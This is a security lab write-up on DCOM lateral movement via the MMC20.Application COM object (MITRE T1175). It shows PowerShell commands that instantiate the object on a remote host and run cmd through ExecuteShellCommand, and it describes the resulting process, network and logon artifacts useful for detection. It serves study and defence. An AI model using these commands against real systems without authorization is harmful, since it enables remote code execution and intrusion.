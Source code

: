 ```yaml
---
description: Lateral Movement via Distributed Component Object Model
---
```


# T1175: Lateral Movement via DCOM

This lab explores a DCOM lateral movement technique using MMC20.Application COM as originally researched by @enigma0x3 in his blog post [Lateral Movement using the mmc20.application Com Object](https://enigma0x3.net/2017/09/11/lateral-movement-using-excel-application-and-dcom/)

## Execution

MMC20.Application COM class is stored in the registry as shown below:

![](../.gitbook/assets/dcom-registry.png)

Same can be achieved with powershell:

```csharp
Get-ChildItem 'registry::HKEY_CLASSES_ROOT\WOW6432Node\CLSID\{49B2791A-B1AE-4C90-9B8E-E860BA07F889}'
```

![](../.gitbook/assets/dcom-registry2.png)

Establishing a connection to the victim host:

{% code-tabs %}
{% code-tabs-item title="attacker@victim" %}
```csharp
$a = [System.Activator]::CreateInstance([type]::GetTypeFromProgID("MMC20.Application.1","10.0.0.2"))
```
{% endcode-tabs-item %}
{% endcode-tabs %}

Executing command on the victim system via DCOM object:

{% code-tabs %}
{% code-tabs-item title="attacker@victim" %}
```csharp
$a.Document.ActiveView.ExecuteShellCommand("cmd",$null,"/c hostname > c:\fromdcom.txt","7")
```
{% endcode-tabs-item %}
{% endcode-tabs %}

Below shows the command execution and the result of it - remote machine's `hostname` command output is written to `c:\fromdcom.txt`:

![](../.gitbook/assets/dcom-rce.png)

## Observations

Once the connection from an attacker to victim is established using the below powershell:

```csharp
[System.Activator]::CreateInstance([type]::GetTypeFromProgID("MMC20.Application.1","10.0.0.2"))
```

This is what happens on the victim system - `svchost` spawns `mmc.exe` which opens a listening port via RPC binding:

![](../.gitbook/assets/dcom-mmc-bind.png)

![](../.gitbook/assets/dcom-listening.png)

![](../.gitbook/assets/dcom-ancestry+connections.png)

A network connection is logged from 10.0.0.7 \(attacker\) to 10.0.0.2 \(victim\) via `offense\administrator` \(can be also seen from the above screenshot\):

![](../.gitbook/assets/dcom-logon-event.png)

![](../.gitbook/assets/dcom-connection2.png)

{% embed url="https://enigma0x3.net/2017/01/05/lateral-movement-using-the-mmc20-application-com-object/" %}

{% embed url="https://docs.microsoft.com/en-us/previous-versions/windows/desktop/mmc/view-executeshellcommand" %}

{% embed url="https://docs.microsoft.com/en-us/dotnet/api/system.type.gettypefromclsid?view=netframework-4.7.2\#System\_Type\_GetTypeFromCLSID\_System\_Guid\_System\_String\_" %}

{% embed url="https://docs.microsoft.com/en-us/windows/desktop/com/com-technical-overview" %}

{% embed url="https://attack.mitre.org/wiki/Technique/T1175" %}

